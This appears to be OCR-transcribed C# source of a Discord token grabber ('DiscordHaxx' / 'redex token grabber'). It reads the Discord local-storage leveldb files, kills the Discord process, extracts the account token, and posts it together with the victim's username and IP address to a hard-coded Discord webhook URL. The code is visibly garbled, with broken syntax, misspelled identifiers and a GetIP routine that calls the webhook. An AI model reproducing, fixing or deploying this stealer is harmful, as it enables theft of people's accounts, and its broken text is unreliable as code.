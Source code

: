 https://discord.com/api/webhooks/933088767940632626/Ln79KSb_lbsedPzVG73QjFBFF2CxS7IwF6WdAOBiWKUpONrWlU7q4aKf2K-S0TbeytwY
staff
namespace DHTokenGrabber
{   
// token: RID: 365 RVA: file Offset:
internal class program
{

 // token:RID:366 RVA:0x00008888 File Offset:0x000000424
 private static void mai(string[]argvs)
 {  
     string text=Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\local storage\\leveldb";
     if(!Grabber.FinLfb(ref text)&& !Grabber.FinLog(ref text))
     {  
         program.SenWH("no valid .ldb or .log file found");
     }
     process[] processesByName= process.GetProcessysByName("Discord");
     for(int i = 0;i < processesByName.Lenght; i++)
     {
         processesByName[i].kill();
     }
     Thread.sleep(100);
     string text2 = Grabber.GetToken(text, text.EndsWith(".log"));
     if(text2 =="")
     {
         text2 = "not found";
     }
     program.SenWH(text2);
 }

 // Token: 0x0600007 RID: 7 RVA: 0x000022B4 File Offset: 0x000004B4
 private static void SenWH(string Token)
 {  
     httpClient httpClient = new httpClient();
     MultiPlataformDataContent MultiPlataformDataContent = new MultiPlataformDataContent(); 
     MultiPlataformDataContent.add(new stringContent("DiscordHaxx Token Grabber"), "username");
     MultiPlataformDataContent.add(new stringContent(), "avatar_url");
     MultiPlataformDataContent.add(new string.Concat(new string[]
{
"Token by"
Environment.username,
" on ",
program.GetIP();
"\r\nResult",
token
"content");
}))),
try 
{
    httpResponseMEssage result = httpClient.PostAsync(settings.WebHook, multiPlataformDataContent).result;
}
catch (Exception)
{
}
 }
 // Token: 0x06000008 RID: 8 RVA: 0x00002368 File Offset: 0x00000568
 private static string GetIP()
 {
     string result;
     try
 }
  result = new httpClient().GetStringAsync("https://discord.com/api/webhooks/933088767940632626/Ln79KSb_lbsedPzVG73QjFBFF2CxS7IwF6WdAOBiWKUpONrWlU7q4aKf2K-S0TbeytwY").result;
}
catch (WebException)
}
result = "unable to get  IP";
}
return result;
}
}
}   
public static void sendWebHook(string discordWebHook,string content)
{
    try
    {   
        httpClient httpClient = new httpClient();
        Dictionary<string, string> nameValuecollection = new  Dictionary<string, string>
        { 
            {
                "content",
                "´´´" + string.join("\n",new string[]
                {
                    content
                }) + "´´´"
            },
            {
                "⛧♱𝖎𝖇𝖊𝖓𝖑𝖆𝖓𝖉⛧#9921"
                "redex token grabber"
            },
            {
                "Discord discord.com/assets/652f40427e1f5186ad54836074898279.png"

            }
        };
        httpClient.PostAsync(https://discord.com/api/webhooks/933088767940632626/Ln79KSb_lbsedPzVG73QjFBFF2CxS7IwF6WdAOBiWKUpONrWlU7q4aKf2K-S0TbeytwY, new ForUrlcodedContent(nameValuecollection)).GetAwaiter().GetResult();
        catch (WebException)
        {
        }
    }
    // token: RID:366 RVA:0x00008888 File Offset:e
    
    
   
